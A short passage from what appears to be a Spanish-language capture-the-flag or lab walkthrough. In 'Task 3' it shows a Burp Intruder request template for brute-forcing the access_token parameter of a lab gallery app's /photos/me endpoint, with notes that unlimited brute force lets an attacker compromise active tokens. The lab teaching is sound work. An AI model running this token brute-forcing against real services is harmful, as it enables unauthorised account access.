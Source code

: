 > \[Nota] Asegúrese de reemplazar el código de acceso en la solicitud anterior con el que recibe de la solicitud anterior a esta.

Tarea 3. Descubre otra vulnerabilidad de token

```
# At /photos/me?access_token=[code] you are able to bruteforce the valid token. This will require the following Burp Intruder configuration:  

GET /photos/me?access_token=§§ HTTP/1.1
Host: gallery:3005
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:91.0) Gecko/20100101 Firefox/91.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Connection: close
Upgrade-Insecure-Requests: 1
```

> De esta manera, un atacante puede comprometer tokens activos a través de la fuerza bruta de forma ilimitada.

> \[Nota] En una aplicación real, puede haber varios tokens activos. Como solo tenemos un token activo, el tiempo para el refuerzo bruto podría ser mucho más largo.
